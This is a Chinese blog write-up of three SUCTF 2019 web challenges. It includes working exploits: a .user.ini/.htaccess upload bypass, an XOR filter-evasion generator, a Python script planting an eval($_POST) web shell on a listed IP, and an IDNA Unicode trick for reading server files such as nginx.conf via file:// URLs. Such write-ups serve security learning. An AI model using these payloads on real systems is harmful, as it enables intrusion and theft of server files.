 <!--yml
category: 未分类
date: 2022-04-26 14:44:14
-->

# SUCTF_2019部分题解复现_FFM-G的博客-CSDN博客

> 来源：[https://blog.csdn.net/weixin_44255856/article/details/99734891](https://blog.csdn.net/weixin_44255856/article/details/99734891)

本次比赛还是太菜了，只写出了两道题。但是学习到了很多东西。

## web

## check

题目是一个文件上传，但是限制了很多地方，限制了文件类型，并且判断了文件上传的文件内容，这里是使用exif_image判断的。可以通过手动添加GIF89，也可以在文件头加上width和height
![在这里插入图片描述](img/a05e9a68899dbf0b96af103e0a99ee4a.png)
![在这里插入图片描述](img/2e1c107b74a842254e19ba30a198eca6.png)
这里在前面添加

```
#define width 1337
#define height 1337

auto_prepend_file=2.jpg 
```

首先先上传一个.user.ini文件
关于.user.ini参考这里[.user.ini文件构成的PHP后门](https://wooyun.js.org/drops/user.ini%E6%96%87%E4%BB%B6%E6%9E%84%E6%88%90%E7%9A%84PHP%E5%90%8E%E9%97%A8.html)
![在这里插入图片描述](img/37d3d125c32fec47a3ed1f3ff9388a64.png)
后再上传个2.php文件。
![在这里插入图片描述](img/15f5fd05321030599f5a6dda447b0402.png)
访问生成的目录即可得到flag

![在这里插入图片描述](img/edeb115a4e9babb78a0a1ca71a745a32.png)

## easyphp

首先得到源码。

```
<?php
function get_the_flag(){
    // webadmin will remove your upload file every 20 min!!!! 
    $userdir = "upload/tmp_".md5($_SERVER['REMOTE_ADDR']);
    if(!file_exists($userdir)){
    mkdir($userdir);
    }
    if(!empty($_FILES["file"])){
        $tmp_name = $_FILES["file"]["tmp_name"];
        $name = $_FILES["file"]["name"];
        $extension = substr($name, strrpos($name,".")+1);
    if(preg_match("/ph/i",$extension)) die("^_^"); 
        if(mb_strpos(file_get_contents($tmp_name), '<?')!==False) die("^_^");
    if(!exif_imagetype($tmp_name)) die("^_^"); 
        $path= $userdir."/".$name;
        @move_uploaded_file($tmp_name, $path);
        print_r($path);
    }
}

$hhh = @$_GET['_'];

if (!$hhh){
    highlight_file(__FILE__);
}

if(strlen($hhh)>18){
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?> 
```

简单的代码审计下。
发现这个正则太变态了`if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i’, $hhh) )`过滤了字母，数字，下划线以及其他的符号。
并且要通过eval去触发get_the_flag函数
首先我们先拜读这两篇文章
[PHP不使用数字,字母和下划线写shell](https://www.smi1e.top/php%E4%B8%8D%E4%BD%BF%E7%94%A8%E6%95%B0%E5%AD%97%E5%AD%97%E6%AF%8D%E5%92%8C%E4%B8%8B%E5%88%92%E7%BA%BF%E5%86%99shell/)
[ISITDTU CTF 2019 EasyPHP 回顾](https://blog.zeddyu.info/2019/07/20/isitdtu-2019/)

> 首先了解下php中异或的概念
> 在PHP中两个变量进行异或时，会先将字符串转换成ASCII值，再将ASCII值转换成二进制再进行异或，异或完又将结果从二进制转换成ASCII值，再转换成字符串。
> A的ASCII值是65，对应的二进制值是01000001
> ?的ASCII值是63，对应的二进制值是00111111
> 异或的二进制的值是10000000即为~
> 所以`‘A’^'?'='~'`

于是我们可以通过异或来绕过正则
但是我们怎么去触发函数呢？
发现可以这样去触发函数 `${_GET}{name}() ;& name = phpinfo`

这里贴上师傅的脚本

```
<?php
function gen($pl) {
	$aa = "";
	$bb = "";
	for ($j = 0; $j < strlen($pl); $j++) {
		for ($i = 0xa0; $i < 0xff; $i++) {
			if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($i)) == 0) {
				$t = chr($i) ^ $pl[$j];
				if (preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $t) == 0) {
					$aa .= chr($i);
					$bb .= $t;
					break;
				}
			}
		}
	}
	return str_replace("%", "\x", urlencode($aa) . "^" . urlencode($bb) . "\r\n");
}
echo "_GET\r\n";
echo gen("_GET");
echo "_POST\r\n";
echo gen("_POST");

// _GET \xA0\xA0\xA0\xA0^\xFF\xE7\xE5\xF4 _POST \xA0\xA0\xA0\xA0\xA0^\xFF\xF0\xEF\xF3\xF4 
```

于是`?_=${%A0%A0%A0%A0^%FF%E7%E5%F4}{%A0}();&%A0=phpinfo`
因为已经可以执行get_the_flag()函数。所以可以直接上传一句话木马。
贴上脚本

```
import requests
import base64

url = b'http://47.111.59.243:9001/?_=${%A0%A0%A0%A0^%FF%E7%E5%F4}{%A0}();&%A0=get_the_flag'

htaccess = b"""\x00\x00\x8a\x39\x8a\x39
AddType application/x-httpd-php .we
php_value auto_append_file "php://filter/convert.base64-decode/resource=./w.we"
"""

shell = b"\x00\x00\x8a\x39\x8a\x39"+b"00"+ base64.b64encode(b"<?php eval($_POST['c']);?>")

files = [('file',('.htaccess',htaccess,'application/octet-stream'))]

data = {"upload":"Submit"}
print("upload .htaccess")
r = requests.post(url=url, data=data, files=files)#proxies=proxies)

print(r.text) 

print("upload w.we")

files = [('file',('w.we',shell,'application/octet-stream'))]
r = requests.post(url=url, data=data, files=files)
print(r.text) 
```

![在这里插入图片描述](img/6cbaedf10d07d80af090fa70eda3608a.png)
后使用蚁剑连接
![在这里插入图片描述](img/bfb0139feb14afec1ff6a84ad9289fd0.png)
但是这里有限制发现蚁剑根本无法访问www目录
于是查看phpinfo，发现启用了`disable_function.`
![在这里插入图片描述](img/03189e484725cee18b2b1b4df4027e5d.png)
并且还限制了`open_basedir`![在这里插入图片描述](img/4e1f63e19ee82c120900364b384abb56.png)
后绕过disable_function和open_basedir。任意文件读取即可

## pythonginx

得到源码

```
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333" 
```

听师傅们说这是blackhat的议题，详细见`chrome-extension://cdonnmffkdaoajfknoeeecmchibpmkmg/static/pdf/web/viewer.html?file=https%3A%2F%2Fi.blackhat.com%2FUSA-19%2FThursday%2Fus-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf`
文中提到了![在这里插入图片描述](img/8158bd0454db63f0524d57135c9166f9.png)
**encode(‘idna’)是指转换为国际化域名**
构造url绕过`file://suctf.cℂ/etc/shadow`
经过测试当suctf.cℂ时，即可绕过suctf.cc。
![在这里插入图片描述](img/8fff9d37e2a36f6e23fceca3470e2d98.png)
根据题中的提示，`”Do you know the nginx？”`，直接读取nginx的文件。

```
file://suctf.cℂ/etc/shadow/usr/local/nginx/conf/nginx.conf 
```

![在这里插入图片描述](img/3c290da2d0049420a68c5b046f4705d2.png)
查看到flag的文件目录。
读取目录。

```
 file://suctf.cℂ/etc/shadow/usr/fffffflag 
```

得到flag
![在这里插入图片描述](img/182885a717540ea531911e99260894cf.png)